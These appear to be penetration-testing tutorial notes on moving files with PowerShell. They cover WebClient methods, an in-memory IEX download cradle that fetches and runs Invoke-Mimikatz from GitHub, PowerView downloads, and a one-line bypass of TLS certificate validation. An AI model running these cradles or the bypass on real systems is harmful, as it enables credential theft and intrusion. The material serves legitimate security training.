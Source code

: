 PowerShell offers many file transfer options. In any version of PowerShell, the [System.Net.WebClient](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient?view=net-5.0) class can be used to download a file over `HTTP`, `HTTPS` or `FTP`. The following [table](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient?view=net-6.0) describes WebClient methods for downloading data from a resource:

|**Method**|**Description**|
|---|---|
|[OpenRead](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openread?view=net-6.0)|Returns the data from a resource as a [Stream](https://docs.microsoft.com/en-us/dotnet/api/system.io.stream?view=net-6.0).|
|[OpenReadAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openreadasync?view=net-6.0)|Returns the data from a resource without blocking the calling thread.|
|[DownloadData](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddata?view=net-6.0)|Downloads data from a resource and returns a Byte array.|
|[DownloadDataAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddataasync?view=net-6.0)|Downloads data from a resource and returns a Byte array without blocking the calling thread.|
|[DownloadFile](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfile?view=net-6.0)|Downloads data from a resource to a local file.|
|[DownloadFileAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfileasync?view=net-6.0)|Downloads data from a resource to a local file without blocking the calling thread.|
|[DownloadString](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstring?view=net-6.0)|Downloads a String from a resource and returns a String.|
|[DownloadStringAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstringasync?view=net-6.0)|Downloads a String from a resource without blocking the calling thread.|
Harmj0y has compiled an extensive list of PowerShell download cradles [here](https://gist.github.com/HarmJ0y/bb48307ffa663256e239).
#### Download File 

```powershell-session
(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')
```

```powershell-session
(New-Object Net.WebClient).DownloadFileAsync('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1', 'C:\Users\Public\Downloads\PowerViewAsync.ps1')
```

##### Fileless DownloadString Method

Fileless attacks work by using some operating system functions to download the payload and execute it directly. PowerShell can also be used to perform fileless attacks. Instead of downloading a PowerShell script to disk, we can run it directly in memory using the [Invoke-Expression](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-7.2) cmdlet or the alias `IEX`.

```powershell-session
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```

`IEX` also accepts pipeline input.

```powershell-session
(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```

#### Invoke-WebRequest

We can also use Invoke-WebRequest to download files from web servers on the local network or a network reachable from the Windows target.

```powershell-session
Invoke-WebRequest -Uri "https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1" -OutFile "C:\PowerView.ps1"
```


## Common Errors

1. There may be cases when the Internet Explorer first-launch configuration has not been completed, which prevents the download.
	1. This can be bypassed using the parameter `-UseBasicParsing`.
2. Another error in PowerShell downloads is related to the SSL/TLS secure channel if the certificate is not trusted. We can bypass that error with the following command:
	1. `[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}`
